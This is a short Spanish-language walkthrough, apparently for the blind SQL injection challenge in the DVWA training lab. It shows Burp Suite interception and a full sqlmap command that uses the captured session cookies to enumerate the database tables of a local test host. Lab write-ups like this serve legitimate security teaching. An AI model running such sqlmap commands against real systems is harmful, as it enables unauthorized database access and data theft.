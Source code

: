 # SQL Injection

## Descripción del reto

Este nivel no tiene cambios significativos que el nivel medio, ya que solo deberiamos cambiar los parametros del comando como las cookies de seguridad y PHPSESSID.

## Explotación de la vulnerabilidad

1. Para explotar esta vulnerabilidad vamos a intercepar la petición con burpsuit para ver como se envia.

![SQLIBlind](/img/SQLIBlind/Captura1.png)

2. Como se puede observar se ultilizan las cookies de PHPSESSID y security. Por lo tanto vamos a usar la herramienta sqlmap juntanto con estas cookies.

```bash
sqlmap -u "http://mi.local/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit# --cookie="security=lo; PHPSESSID=08524993c5f4d3c81931b340f7580c1" -D dvwa --tables -batch
```

![SQLIBlind](/img/SQLIBlind/Captura2.png)

Y en el resultado podemos ver las dos tablas que hay en esta base de datos.
